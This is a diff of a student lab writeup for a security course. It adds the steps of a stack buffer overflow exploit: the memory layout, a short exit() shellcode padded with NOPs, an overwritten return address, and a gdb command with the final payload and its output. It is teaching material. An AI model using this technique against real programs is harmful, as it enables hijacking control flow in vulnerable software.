

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_1/writeup.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
[Machine Problem 1] Finished the methodoloy

````diff
--- a/Machine_Problem_1/writeup.md
+++ b/Machine_Problem_1/writeup.md
@@ -351,10 +351,60 @@ The contents of the `buffer` can be checked by
 The first 8 bytes (`0x41414141	0x42424242`) are the buffer's contents.
 The next 4 bytes (`0x43434343`) is the base pointer.
 The next 4 bytes (`0x44444444`) is the return address which will be modified to point to the address of the `buffer` (at `0xffffcd18`).
+This is where the shellcode will be stored.
 
 ### Exploitation
 
+We can use any means necessary to send raw bytes to the input, but to make things simpler, we will be using `echo`.
+Notice that the structure of the memory address is as follows:
+
+```
+[ 0x-------- 0x-------- ] [ 0x-------- ] [ 0x-------- ] ...
+          buffer                ebp           esp
+```
+
+The payload `\x31\xc0\x40\x89\xc3\xcd\x80` can be stored on the `buffer`'s memory space
+
+```
+[ 0x8940c031 0x--80cdc3 ] [ 0x-------- ] [ 0x-------- ] ...
+          buffer                ebp           esp
+```
+
+Notice that the raw bytes are stored in little-endian system.
+
+Since the size of the payload is only 7 bytes long, NOP (no operation) instruction must be appended in order for the return address (ESP) to be modified.
+The total size of the buffer and the EBP is 12 bytes.
+Thus, there are 5 bytes worth of NOPs to be padded.
+
+```
+[ 0x8940c031 0x9080cdc3 ] [ 0x90909090 ] [ 0x-------- ] ...
+          buffer                ebp           esp
+```
+
+The equivalent shellcode is now `\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90`.
+
+Next is to add the memory address of the `buffer`.
+
+```
+[ 0x8940c031 0x9080cdc3 ] [ 0x90909090 ] [ 0xffffcd18 ] ...
+          buffer                ebp           esp
+```
+
+Thus, the final shellcode is `\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff`.
+
 ## Documentation of Proofs
+
+To execute the exploit, run
+
+```
+(gdb) run <<< $(echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff")
+```
+
+Which should successfully terminate the program with desired exit status
+
+```
+[Inferior 1 (process 1075597) exited with code 01]
+```
 
 ---
 
````
